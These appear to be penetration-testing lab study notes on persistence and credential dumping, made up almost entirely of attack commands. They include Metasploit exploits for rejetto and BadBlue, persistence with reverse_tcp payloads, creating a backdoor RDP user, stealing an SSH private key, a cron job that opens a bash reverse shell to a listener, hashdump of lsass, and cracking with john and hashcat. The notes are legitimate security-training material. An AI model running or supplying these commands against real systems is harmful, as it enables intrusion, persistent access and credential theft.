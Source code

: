            **Windows**
            
            - `nmap -sV 10.2.20.244`
            - Exploit rejetto
            - Got meterpreter sessions
            - `sysinfo`
            - `getuid`
            - `background search platform:windows persistence use exploit/windows/local/persistence_service info set payload windows/meterpreter/reverse_tcp set LPORT 4443 sessions set SESSION 3 run`
            - Kill all MSF sessions
            - `sessions -K`
            - `exit`
            - `msfconsole -q use multi/handler options set payload windows/meterpreter/reverse_tcp set LHOST eth1 set LPORT 4444 run`
            - Second approach RDP
            - `service postgresql start && msfconsole -q`
            - `db_status setg RHOSTS 10.2.20.249 setg RHOST 10.2.20.249 workspace -a RDP_persistence db_nmap -sV 10.2.20.249`
            - `use exploit/windows/http/badblue_passthru run`
            - `sysinfo`
            - `getuid`
            - `pgrep explorer migrate 3132`
            - `run getgui -e -u newuser -p attack_1234321`
            - `xfreerdp /u:newuser /p:attack_1234321 /v:10.2.20.249`
            - Meterprer run this command - run `multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230429.4245.rc`
            
            **Linux**
            
            - `ssh [student@192.3.140.3](<mailto:student@192.3.140.3>)` use password
            - `ls -al`
            - `cat wait`
            - `cd .ssh ls`
            - `cat id_rsa`
            - `cat authorized_keys`
            - `scp [student@192.3.140.3](<mailto:student@192.3.140.3>):~/.ssh/id_rsa . chmod 400 id_rsa`
            - `ssh [student@192.3.140.3](<mailto:student@192.3.140.3>) rm wait`
            - `ssh -i id_rsa [student@192.3.140.3](<mailto:student@192.3.140.3>)`
            - 2nd cron
            - `cat wait`
            - `cat /etc/cron*`
            - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.175.36.2/1234 0>&1'" > cron`
            - `crontab -i cron crontab -l`
            - logback again
            - `ssh [student@192.175.36.3](<mailto:student@192.175.36.3>) rm wait`
            - `nc -nvlp 1234`
        - Dumping & Cracking
            
            **Windows**
            
            - `nmap -sV -p 80 10.2.24.37`
            - `service postgresql start && msfconsole -q`
            - Exploit badblue
            - Got meterpreter session
            - `sysinfo`
            - `getuid`
            - `get privs`
            - `pgrep lsass migrate 688`
            - `hashdump`
            - `john --list=formats | grep NT`
            - `john --format=NT hashes.txt`
            - `john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt`
            - `hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`
            - `hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt`
            - `xfreerdp /u:Administrator /p:password /v:10.2.24.37`
            